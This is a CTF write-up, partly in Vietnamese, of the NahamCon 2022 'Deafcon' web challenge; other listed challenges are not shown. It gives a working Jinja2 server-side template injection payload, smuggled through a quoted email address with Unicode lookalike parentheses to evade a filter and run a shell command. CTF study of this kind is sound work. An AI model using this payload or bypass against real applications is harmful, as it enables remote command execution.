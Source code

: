 # NahamCon CTF 2022
Một giải khá hay, sau đây là write up của 5 bài web

## Mục lục
[Deafcon](https://github.com/devme4f/ctf-writeup/tree/main/nahamcon#deafcon)

[Flaskmetal Alchemist](https://github.com/devme4f/ctf-writeup/tree/main/nahamcon#flaskmetal-alchemist)

[Hacker TS](https://github.com/devme4f/ctf-writeup/tree/main/nahamcon#hacker-ts)

[Poller](https://github.com/devme4f/ctf-writeup/tree/main/nahamcon#poller)

[Two For One](https://github.com/devme4f/ctf-writeup/tree/main/nahamcon#two-for-one)

## Deafcon

### Solution
Name: sam

Email: "{{request.application['__globals__'].__builtins__.__import__﹙'os'﹚.popen﹙'cat flag.txt'﹚.read﹙﹚}}"@m.edu

Here the symbols that look like ( and ) are actually high-unicode characters: SMALL LEFT/RIGHT PARENTHESIS 0xFE59 and 0xFE5A

These get past the filter but must "turn into" regular parenthesis when the expression is evaluated. I'm not sure why.

The email syntax checker allows certain characters ONLY if the portion to the left of the @ is surrounded by double-quotes.

### Note

#### Quick Review
1. App cho 2 phần user input là `name` và `email`, sau khi submit website trả về trang pdf chứa name và email vừa cung cấp.
2. Test param name thì bị filter chỉ white list regex `/a-zA-Z0-9/`
3. Param email có email parser ở backed, ví dụ như `a<img src="//a.com">@gmail.com` sẽ không đúng format và trả về lỗi không tuân thủ `RFC5322`. Ngoài ra nó filter ngoặc tròn '(' và ')'

#### Exploit
1. Để bypass email parser: `"a<we're good>"@a.com`, (phần username được bọc bằng dấu ngoặc kép bypass parser)
2. Thử tiếp: `"a{{7*'7'}}"@a.com` được `7777777` tức dính lỗi *SSTI*
3. Ta dùng unicode bypass filter '(' và ')' được payload sau:

```
Email: "{{request.application['__globals__'].__builtins__.__import__﹙'os'﹚.popen﹙'cat flag.txt'﹚.read﹙﹚}}"@a.com
```

**unicode**: https://www.fileformat.info/search/google.htm?q=PARENTHESIS&domains=www.fileformat.info&sitesearch=www.fileformat.info&client=pub-6975096118196151&forid=1&channel=1657057343&ie=UTF-8&oe=UTF-8&cof=GALT%3A%23008000%3BGL%3A1%3BDIV%3A%23336699%3BVLC%3A663399%3BAH%3Acenter%3BBGC%3AFFFFFF%3BLBGC%3A336699%3BALC%3A0000FF%3BLC%3A0000FF%3BT%3A000000%3BGFNT%3A0000FF%3BGIMP%3A0000FF%3BFORID%3A11&hl=en
